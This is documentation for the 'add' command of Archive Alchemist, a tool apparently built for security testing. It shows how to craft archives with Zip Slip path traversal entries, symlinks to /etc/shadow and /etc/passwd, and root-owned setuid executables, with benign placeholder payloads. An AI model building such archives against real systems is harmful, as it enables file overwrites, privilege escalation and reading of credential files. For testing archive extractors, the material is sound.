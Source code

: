 # Archive Alchemist: add Command

## Overview

The `add` command adds files, directories, symlinks, or hardlinks to an archive. It's one of the most versatile commands in Archive Alchemist, allowing you to craft archives with various file types and properties.

## Syntax

```bash
./archive-alchemist.py <archive> [-t <type>] add <path> [options]
```

## Options

| Option | Description | Default | Example |
|--------|-------------|---------|---------|
| `<path>` | Path within the archive (required) | N/A | `file.txt`, `dir/file.js`, `../etc/passwd` |
| `--content` | Text content to add to the file | Empty | `--content "console.log('hello')"` |
| `--content-file` | Path to a local file whose content should be added | None | `--content-file /path/to/local/file.txt` |
| `--content-directory` | Path to a local directory to add recursively | None | `--content-directory /path/to/local/dir` |
| `--symlink` | Create a symlink to this target | None | `--symlink "/etc/passwd"` |
| `--hardlink` | Create a hardlink to this target | None | `--hardlink "target.txt"` |
| `--mode` | File mode in octal notation | 0644 for files<br>0755 for directories | `--mode 0755` |
| `--uid` | User ID | Current user | `--uid 0` |
| `--gid` | Group ID | Current group | `--gid 0` |
| `--mtime` | Modification time (Unix timestamp) | Current time | `--mtime 1609459200` |
| `--setuid` | Set the setuid bit | False | `--setuid` |
| `--setgid` | Set the setgid bit | False | `--setgid` |
| `--sticky` | Set the sticky bit | False | `--sticky` |
| `--unicodepath` | Set the unicode path (ZIP only) | None | `--unicodepath something.txt` |

**Note**: You can specify only one of `--content`, `--content-file`, `--content-directory`, `--symlink`, or `--hardlink`.

## Examples

### Adding a Regular File

```bash
# Add a file with inline content
./archive-alchemist.py archive.zip add hello.js --content "console.log('hello')"

# Add a file with content from another file
./archive-alchemist.py archive.zip add config.json --content-file /path/to/local/config.json
```

### Adding Files with Path Traversal

```bash
# Add a file with a path traversal pattern
./archive-alchemist.py archive.tar -t tar add "../../../etc/passwd" --content "fake passwd file"
```

### Adding Files with Special Permission Bits

```bash
# Add a file with executable permissions
./archive-alchemist.py archive.tar -t tar add exploit.sh --content "#!/bin/sh\necho hacked" --mode 0755

# Add a file with setuid bit
./archive-alchemist.py archive.tar -t tar add setuid_exploit --content "#!/bin/sh\nwhoami" --mode 0755 --setuid --uid 0

# Add a file with sticky bit
./archive-alchemist.py archive.zip add sticky_directory/ --content "sticky directory" --mode 0777 --sticky
```

### Adding Symlinks

```bash
# Add a symlink to an absolute path
./archive-alchemist.py archive.tar -t tar add evil.conf --symlink "/etc/shadow"

# Add a symlink to a relative path
./archive-alchemist.py archive.zip add relative_link.txt --symlink "../sensitive.txt"
```

### Adding Hardlinks (TAR only)

```bash
# Add a hardlink to another file in the archive
./archive-alchemist.py archive.tar -t tar add hardlink.txt --hardlink "original.txt"
```

**Note**: ZIP format doesn't support true hardlinks. When adding a hardlink to a ZIP file, Archive Alchemist creates a regular file with the target path as its content.

### Adding an Entire Directory Structure

```bash
# Add a directory structure recursively
./archive-alchemist.py archive.zip add website/ --content-directory /path/to/local/website

# Add a directory with custom permissions
./archive-alchemist.py archive.tar -t tar add backup/ --content-directory /etc/config --mode 0600
```

When using `--content-directory`:
- File permissions are preserved from the source directory unless overridden with `--mode`
- Directory structure and empty directories are maintained
- Symlinks in the source directory are added as symlinks in the archive
- If a file already exists in the archive, it will be overwritten with the new content

## Advanced Examples

### Creating a Zip Slip Payload

```bash
# Create a zip with path traversal payload
./archive-alchemist.py zipslip.zip add "../../../tmp/evil.txt" --content "I escaped the extraction directory!"
```

### Creating a Symlink Attack

```bash
# Create a symlink pointing to a sensitive file
./archive-alchemist.py symlink_attack.tar -t tar add .bashrc --symlink "/etc/passwd"
```

### Creating a Setuid Executable

```bash
# Create a setuid executable owned by root
./archive-alchemist.py setuid_attack.tar -t tar add exploit --content "#!/bin/sh\nwhoami" --mode 0755 --setuid --uid 0
```

### Setting Custom Timestamps

```bash
# Add a file with a specific modification time (January 1, 2021)
./archive-alchemist.py archive.zip add old_file.txt --content "Old content" --mtime 1609459200
```

## Notes and Warnings

- The `--setuid`, `--setgid`, and `--sticky` permission bits are only meaningful in Unix/Linux systems. Windows systems will ignore these bits.

- ZIP archives have limitations regarding Unix permissions and special file types like symlinks. These are implemented using ZIP extension fields and may not be recognized by all ZIP utilities.